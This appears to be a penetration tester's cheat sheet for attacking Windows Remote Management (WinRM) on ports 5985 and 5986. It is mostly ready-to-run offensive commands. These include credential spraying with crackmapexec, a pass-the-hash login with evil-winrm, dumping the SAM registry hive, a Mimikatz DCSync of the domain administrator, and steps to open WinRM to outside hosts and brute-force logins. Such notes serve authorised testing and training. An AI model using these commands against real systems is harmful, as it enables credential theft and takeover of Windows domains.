 # 5985, 5986 - WinRM

## evil-winrm

{% hint style="info" %}
use **menu** to list commands, a useful one is **services**
{% endhint %}

## Check valid credentials

```bash
crackmapexec winrm $IP -u $USERS_FILE -p $PASS --continue-on-success
```

## Pass the Hash

```bash
evil-winrm -u administrator -H 5b38382017f8c0ac215895d5f9aacac4 -i 172.16.1.5
```

[https://juggernaut-sec.com/pass-the-hash-attacks/](https://juggernaut-sec.com/pass-the-hash-attacks/)

## Kerberos auth

```sh
https://github.com/Hackplayers/evil-winrm#kerberos
sudo nvim /etc/krb5.conf
- Modify [libdefaults] 
- Also add the realm to [realms] both kdc and admin_server
- Just to be sure, add it to [domain-realms] as well
```



## Unrestricted scripts / commands execution

{% code overflow="wrap" %}
```powershell
PowerUp → use downloadString to make it work appart from unrestricted execution policy
Set-ExecutionPolicy Unrestricted -Force
# To indicate our paths where we have PS scripts / exe binaries
-s, --scripts PS_SCRIPTS_PATH    Powershell scripts local path
-e, --executables EXES_PATH      C# executables local path
# Then on evil-winrm we type menu and since the app knows where PS/exes are we can execute them more easily
```
{% endcode %}

## Execute cmd commands on PS

```
cmd.exe /c reg save hklm\sam sam
PS> "binary.exe -p -l 455" | cmd
```

## Enable WinRM outside (AD/FW)

You can enable winrm but you will also need to allow it on the firewall and then also change the trusted hosts to be \* to allow IP addresses external of the network to connect.

## Mimikatz

```powershell
PS> .\mimikatz 'lsadump::dcsync /domain:.LOCAL /user:administrator' exit
```

## 5986 - WinRM (SSL)

```bash
# log in using evil-winrm (note port is 5986) and providing the public key (in this case the certificate key) and the private key
└─$ evil-winrm -i 10.10.10.10 -c pub-key.pem -k priv-key.pem -S -r domain.com -P 5986

# Authenticate against port 5986 (SSL)
evil-winrm -i 10.10.10.10 -u Administrator -p '$PASS' -S
```

## Bruteforce

```bash
https://github.com/yok4i/winrm-brute
# (check first if we have tried some creds with cme)
```
